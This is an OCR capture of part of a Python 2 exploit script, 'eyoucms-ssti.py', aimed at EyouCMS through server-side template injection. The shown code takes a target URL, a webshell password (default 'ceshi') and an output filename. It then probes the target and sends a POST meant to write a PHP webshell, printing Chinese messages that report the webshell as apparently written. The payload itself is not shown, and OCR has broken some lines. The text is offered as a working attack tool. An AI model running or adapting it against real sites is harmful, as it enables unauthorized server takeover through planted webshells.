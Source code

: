             try:

                options, args = getopt.getopt(argv, "h:u:p:o:", ["help", "url=","password=","output="])

            except getopt.GetoptError:

                print 'eyoucms-ssti.py -u url -p password -o outputfile'

                return

            for option, value in options:

                if option in ("-h", "--help"):

                    print 'eyoucms-ssti.py -u url'

                if option in ("-u", "--url"):

                    if(self.request(value).status_code != 404):

                        self.url = value

                if option in ("-p", "--password"):

                        if(value != None):

                            self.password = value

                        else:

                            self.password = "ceshi"

                if option in ("-o", "--output"):

                        if(value != None):

                            self.output = value.replace(".php","")

                        else:

                            self.output = "ceshi"



        def run(self):

            url = self.url.rstrip('/')+self.requesturi

            print "[+] 正在请求目标地址:%s"%(url)

            if(self.request(url).status_code == 200):

                print "
     目标地址%s存活"%url

            else:

                print "[-] 目标地址%s探测失败"%url

                return

            print "[+] 正在向目标地址%s写入%s.php"%(url,self.output)

            if(self.request(url,"post").status_code == 200):

                print "
     疑似成功写入Webshell"
